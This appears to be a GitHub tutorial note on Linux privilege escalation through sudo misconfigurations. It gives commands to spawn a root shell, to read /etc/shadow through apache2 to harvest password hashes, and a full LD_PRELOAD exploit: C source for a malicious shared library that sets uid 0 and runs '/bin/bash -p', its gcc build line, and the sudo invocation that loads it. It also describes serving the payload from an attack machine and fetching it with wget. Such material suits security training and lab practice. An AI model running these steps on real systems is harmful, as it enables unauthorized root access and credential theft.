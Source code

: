 The `sudo` command allows users to run programs with elevated (root) privileges. In cases where full root access isn't necessary or allowed, system administrators can configure granular sudo privileges for users, allowing them to run specific commands with root privileges while maintaining their regular permission level for the rest of the system.

Any user can check its current situation related to root privileges using this command:

```
sudo -l
```
This will list all the commands the current user is permitted to run with sudo, if any. The sudoers file is typically located at “/etc/sudoers” or “/etc/sudoers.d/”

* If we run this command and see ```/bin/bash``` is runed by anyone as a root we could use this to run it as root:
```
sudo -u#0 /bin/bash
```
* if we have a specific Function like `apache`,  we can get root hash with :
```
sudo apache2 -f /etc/shadow
```
Then we can extract the hashes then use ```su```


**Environment Variables ( LD_PRELOAD )**

Environment Variable: A container that stores important system-wide data needed for tasks. It sets up the environment for the system to work.

Shared Library: Reusable code that can be loaded into memory by a program when it starts. There are two types: static (fixed when the program is created) and shared (loaded dynamically).

LD_PRELOAD: Is an optional Environment Variable that is used to set/load Shared Libraries to a program or script. That means we can set the value of the LD_PRELOAD Environment Variable for a program to tell the program to load the mentioned libraries in it’s memory before starting..


> we are going to make malicious library run before any other libraries.

**STEPS to exploit this**

1. Execute sudo -l to see if we have limited SUDO access to any programs or scripts. For example, if we have a file ```/otp/cleanup.sh``` running with root access without password, we will exploit this as follow.
2. Enumerate to see if we have permission to set the environment variable for the script or program. In this case we see that we can ```SETENV``` which means the same. Also see if the ```env_keep += LD_PRELOAD``` is set here or in the sudoers file. 
 
![Screenshot from 2024-09-29 00-42-22](https://github.com/user-attachments/assets/b83d3699-fe1a-4f6c-abb0-44090406af44)
![Screenshot from 2024-09-29 00-54-16](https://github.com/user-attachments/assets/219ce0c7-6e11-4dcd-bf18-b0f4fb1f42ab)


3. Write and compile a malicious binary that will give us a root shell. We can write and compile it in the victim machine if gcc and ```vim/nano``` is present there. Or we can write and compile the code in our Attack Machine and then use ```python3 -m http.server 80``` to host the file and wget it in the Victim Machine.
4. creat our script ```exploit.c```:
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setuid(0);
	setgid(0);
	system("/bin/bash -p");
	}
```
5. compile it:
```
gcc -fPIC -shared -nostartfiles -o exploit.so exploit.c
```
6. Now it’s time to load our malicious shared library into the memory:
```
sudo LD_PRELOAD=<location_to_our_shared_library> <location_to_the_script/program>
```
ex
```
sudo LD_PRELOAD=/tmp/exploit.so /opt/cleanup.sh
#OR
sudo LD_PRELOAD=/tmp/exploit.so find
```
now, we have root access.















Finally, we can use this [GTFOBins](https://gtfobins.github.io/?source=post_page-----3fb61a09f7ba--------------------------------)



















